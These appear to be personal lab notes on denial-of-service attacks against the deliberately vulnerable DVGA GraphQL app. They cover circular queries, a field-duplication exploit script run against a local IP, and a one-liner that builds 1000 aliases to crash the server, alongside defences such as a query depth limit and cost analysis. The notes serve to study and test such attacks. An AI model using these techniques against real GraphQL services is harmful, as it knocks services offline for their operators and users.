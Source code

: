 This confirms what we found in GraphQL Voyager: 
```bash
cat /tmp/dvga_cycles/127.0.0.1:5013

Cycles(
        { OwnerObject -[paste]-> PasteObject -[owner]-> OwnerObject }
        { OwnerObject -[pastes]-> PasteObject -[owner]-> OwnerObject }
)

```

We can then exhaust system ressources using [Unsafe Circular Query](https://github.com/dolevf/Black-Hat-GraphQL/blob/master/ch05/unsafe-circular-query.graphql) 


```ad-success
title: Solution
`maxQueryDepth`: 5

```

## Field Duplucation Attack

![[Capture d’écran 2023-07-29 011345.png]]


```python
python3 /home/hero/tools/graphql-tools/Black-Hat-GraphQL/ch05/exploit_threaded_field_dup.py http://192.168.1.26:5013/graphql
```

This makes the app unresponsive. You can interrup the script with `CTRL-C` to get your shell back. And you will also need to restart DVGA on your target VM.

```ad-check
title: Solution
with **cost analysis** , this attack will not be as easy to carry out 

```

## Aliases Based attack 

GraphQL doesn’t like dealing with identical response keys and will generally complain if a query includes a given field name twice and you pass an argument with a different value for each.

The difference is that using aliases will sometimes be more efficient, especially if a field de-duplication middleware is implemented. Note that a specific query middleware is needed on the GraphQL server to detect the use of aliases.

This python one liner will generate a **list of 1000 aliases** for you to crash the target
```python
python3 -c 'for i in range(0, 1000): print("q"+str(i)+":"+"systemUpdate")'
```

## Circular fragment
